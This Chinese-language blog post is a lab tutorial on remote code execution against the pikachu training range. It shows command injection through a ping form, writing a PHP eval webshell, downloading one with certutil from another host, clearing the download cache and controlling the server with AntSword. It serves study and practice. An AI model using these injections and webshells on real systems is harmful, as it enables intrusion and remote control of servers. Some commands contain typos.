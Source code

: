 ```yaml
---
title: 信息安全学习-RCE
tags:
  - 信息安全
readmore: true
abbrlink: db914d55
date: 2023-02-09 11:18:31
---
```


### 简介

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行，也就造成了远程代码执行漏洞。

<!-- more -->

### 环境搭建

环境使用 pikachu 的靶场，下载地址：https://github.com/zhuifengshaonianhanlu/pikachu

安装方式可自行百度，推荐使用 phpstudy 创建网站，方便快捷。

### ping 命令漏洞

打开 pikachu 靶场中的 RCE -> exec "ping"，在表单中输入 127.0.0.1 可以看到回显，说明执行了 ping 127.0.0.1 的命令。

#### 测试漏洞

紧接着使用 && 连接符在 127.0.0.1 的后面连接上 whoami 命令

```bash
127.0.0.1 && whoami
# whoami 作用是查看操作系统的用户名
# && 连接符，当前面的命令执行后，后面的命令才会执行
```

可以看到两个命令全都执行了，说明这个位置有漏洞，我们可以加以利用。

#### 创建一句话木马(直接写入文件)

输入新的命令：

```bash
127.0.0.1 && echo "<?=eval($_POST['cmd']);?>" > shell.php
# echo 输出字符串
# $_POST['cmd'] 接受来自 POST 请求且参数名为 cmd 的值
# eval() 执行接收到的字符串
# > 将内容输入到指定的文件中
```

此时就在该页面的位置创建了一个 shell.php 文件并输入对应内容。

#### 创建一句话木马(文件下载方式)

除了使用 echo 这种直接写入的办法，还可以使用 certutil 命令从远处下载木马文件。

##### 启动本地服务器

这种方法需要拥有一个服务器，从服务器上下载文件；练习时我们使用 Python 来创建一个本地服务器作为演示。

在安装好 Python 后，创建一个文件夹并创建 shell.php 文件，写入上文的一句话木马。

**目录不要包含中文**

打开命令行输入命令：

```bash
python -m http.server 8080
# -m 将 python 中的模块当作脚本运行
# 8080 服务启动的端口
```

服务器启动成功~

##### 访问本地服务器

输入命令查看自己电脑的 ip：

```bash
# windows
ipconfig
# linux
iconfig
```

**注意 Windows 和 Linux 查看 ip 的命令不同**

在浏览器输入：

```bash
http://192.168.31.195:8080/
```

成功访问后可以看到一个 shell.php 文件。

##### 下载文件

在靶场的表单中输入：

```bash
127.0.0.1 && certutil -urlcache -f -split http://192.168.31.195:8080/shell.php
# -urlcache 显示或删除URL缓存条目
# -f 覆盖的现有文件，后面要跟着下载文件的 url
# -split 保存到文件
# 杀毒软件可能会报毒，因为是自己的命令，我们就允许它执行
```

看到页面有其他的显示，说明文件已经下载成功~

##### 删除下载缓存

certuril 命令有一个弊端就是下载文件后会保留缓存。

输入命令查看缓存：

```bash
certutil -urlcache *
# 查看所有缓存
cerutil -urlcache 192
# 查看包含 192 字符串的缓存
```

输入命令删除缓存：

```bash
certutil -urlcache * delete
# 删除所有缓存
certuil -urlcache 192 delete
# 删除包含 192 字符串的缓存
```

#### 蚁剑连接后台

成功上传一句话木马后，使用蚁剑进行连接。

蚁剑源码下载地址：https://github.com/AntSwordProject/antSword

蚁剑启动器下载地址：https://github.com/AntSwordProject/AntSword-Loader

将蚁剑源码解压后，打开启动器目录选择刚刚的源码文件，稍等片刻会成功启动。

也可以直接使用启动器下载；若遇到解压失败的情况，给予源码的文件夹所有权限即可。 

启动后，在蚁剑空白处右键，选择添加数据；

![](https://pic.mewhz.com/rce/1.png)

在基础配置中的 url 地址，输入靶场中木马所在的 url；

连接密码输入 cmd，即刚刚木马中 $_POST 的参数；

![](https://pic.mewhz.com/rce/2.png)

单击测试连接，显示连接成功后，单击添加；

右键刚刚添加的记录，选择文件管理就可以对木马所在的服务器进行文件操作；

![](https://pic.mewhz.com/rce/3.png)

![](https://pic.mewhz.com/rce/4.png)



仅供学习交流使用~
